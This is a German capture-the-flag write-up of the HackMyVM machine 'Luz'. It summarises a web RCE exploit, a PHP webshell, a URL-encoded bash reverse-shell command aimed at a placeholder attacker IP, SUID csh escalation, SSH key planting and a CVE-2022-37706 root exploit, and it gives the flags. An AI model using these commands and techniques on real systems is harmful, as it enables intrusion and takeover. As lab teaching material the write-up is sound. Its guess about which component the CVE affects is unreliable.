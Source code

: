 # Luz - HackMyVM (Easy)

![Luz.png](Luz.png)

## Übersicht

*   **VM:** Luz
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Luz)
*   **Schwierigkeit:** Easy
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 2023-04-07
*   **Original-Writeup:** https://alientec1908.github.io/Luz_HackMyVM_Easy/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war es, Root-Rechte auf der Maschine "Luz" zu erlangen. Der initiale Zugriff erfolgte durch Ausnutzung einer bekannten RCE-Schwachstelle (Exploit-DB 50305) in einem "Online Food Ordering System V2", das auf dem Webserver lief. Dies führte zu einer Webshell als `www-data`. Durch das Ausnutzen einer SUID/SGID-Fehlkonfiguration der `bsd-csh`-Shell konnte zu den effektiven Rechten des Benutzers `aelis` gewechselt werden. In diesem Kontext wurde ein Exploit-Skript (`ss.sh`) gefunden und ausgeführt, das eine bekannte Schwachstelle (CVE-2022-37706) ausnutzte, um Root-Rechte zu erlangen.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `gobuster`
*   `wfuzz`
*   Python3 (Exploit-Skript, Shell-Stabilisierung)
*   `nc` (netcat)
*   `bash`
*   `pty` (Python-Modul)
*   `stty`
*   `sudo` (versucht)
*   `find`
*   `ss`
*   `csh` (bsd-csh)
*   `ssh`
*   `./ss.sh` (Exploit Script für CVE-2022-37706)
*   Standard Linux-Befehle (`ls`, `cat`, `grep`, `echo`, `id`, `cd`, `whoami`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Luz" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration:**
    *   IP-Adresse des Ziels (192.168.2.120) mit `arp-scan` identifiziert.
    *   `nmap`-Scan offenbarte Port 22 (SSH, OpenSSH 8.9p1) und Port 80 (HTTP, Nginx 1.18.0). Das `PHPSESSID`-Cookie hatte das `httponly`-Flag nicht gesetzt.
    *   `gobuster` fand diverse PHP-Dateien (`index.php`, `login.php`, `signup.php`, etc.) und Verzeichnisse wie `/admin/` und `/database/`.
    *   `wfuzz` auf `index.php` fand den GET-Parameter `page`, der auf eine LFI-Schwachstelle hindeutete (dieser Vektor wurde im Bericht nicht weiterverfolgt).

2.  **Initial Access (RCE via Exploit-DB 50305 als `www-data`):**
    *   Recherche nach "Online Food Ordering System V2" führte zum Exploit `exploit-db.com/exploits/50305` (Unauthenticated RCE).
    *   Das Python-Exploit-Skript wurde ausgeführt (`python3 system_2.0.py http://192.168.2.120/`).
    *   Der Exploit lud eine PHP-Shell (`shell.php`) in `/var/www/html/fos/assets/img/` hoch.
    *   Über die Webshell wurde eine weitere einfache PHP-Webshell (`rev.php`) erstellt, die Befehle über den GET-Parameter `cmd` annimmt.
    *   Mittels `rev.php` wurde eine Bash-Reverse-Shell zu einem Netcat-Listener auf dem Angreifer-System gestartet (`http://192.168.2.120/assets/img/rev.php?cmd=%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FANGREIFER_IP%2F9002%200%3E%261%27`).
    *   Die erhaltene Shell wurde als `www-data` stabilisiert.
    *   Die User-Flag (`HMVn03145n4nk4`) wurde in `/var/www/html/user.txt` gefunden.

3.  **Privilege Escalation (von `www-data` zu `aelis` via SUID/SGID `csh`):**
    *   `sudo -l` als `www-data` war nicht erfolgreich.
    *   Die Suche nach SUID-Dateien (`find / -type f -perm -4000 -ls`) fand `/usr/bin/bsd-csh` mit SUID- und SGID-Bits, die dem Benutzer `aelis` gehörte (`-rwsr-sr-x 1 aelis aelis ...`).
    *   Durch Ausführen von `/usr/bin/bsd-csh -b` (GTFOBins-Technik) wurden die effektiven Rechte auf `aelis` (`euid=1000(aelis) egid=1000(aelis)`) gewechselt.
    *   Ein öffentlicher SSH-Schlüssel des Angreifers wurde in `/home/aelis/.ssh/authorized_keys` platziert.
    *   Erfolgreicher SSH-Login als `aelis` mit dem entsprechenden privaten Schlüssel.

4.  **Privilege Escalation (von `aelis` zu `root` via CVE-2022-37706):**
    *   Im Verzeichnis `/tmp` wurde das Skript `ss.sh` gefunden.
    *   Ausführen von `./ss.sh` zeigte, dass es eine Schwachstelle (CVE-2022-37706, vermutlich in `pkexec` oder einer verwandten Komponente) ausnutzt.
    *   Das Skript lieferte eine Root-Shell (`uid=0(root)`).
    *   Die Root-Flag (`HMV3nl1gth3nm3n7`) wurde in `/root/root.txt` gefunden.

## Wichtige Schwachstellen und Konzepte

*   **Bekannte Webanwendungs-Schwachstelle (RCE):** Ausnutzung einer bekannten RCE-Schwachstelle (Exploit-DB 50305) in einer "Online Food Ordering System V2"-Anwendung.
*   **SUID/SGID Fehlkonfiguration (csh):** Eine C-Shell-Executable (`/usr/bin/bsd-csh`) hatte SUID/SGID-Bits gesetzt und gehörte einem normalen Benutzer (`aelis`), was eine Eskalation zu den Rechten dieses Benutzers ermöglichte.
*   **Lokale Privilegieneskalation durch Kernel/System-Schwachstelle (CVE-2022-37706):** Ausnutzung einer bekannten Schwachstelle (vermutlich im Zusammenhang mit `polkit`/`pkexec`) durch ein vorhandenes Exploit-Skript (`ss.sh`) zur Erlangung von Root-Rechten.
*   **Fehlendes `httponly`-Flag für Session-Cookies:** Ein potenzielles Risiko für Session-Hijacking über XSS (nicht ausgenutzt).
*   **Exponierte Datenbank-Dumps:** Ein SQL-Dump (`fos_db.sql`) mit Benutzerdaten und Passwort-Hashes wurde im Web-Root gefunden (nicht primär für den Exploit genutzt, aber ein Sicherheitsrisiko).

## Flags

*   **User Flag (`/var/www/html/user.txt`):** `HMVn03145n4nk4` (als `www-data` gefunden, aber Kontext ist `aelis`-Ebene)
*   **Root Flag (`/root/root.txt`):** `HMV3nl1gth3nm3n7`

## Tags

`HackMyVM`, `Luz`, `Easy`, `Web RCE`, `Exploit-DB 50305`, `SUID Exploit`, `SGID Exploit`, `csh`, `CVE-2022-37706`, `Linux`, `Privilege Escalation`, `Nginx`
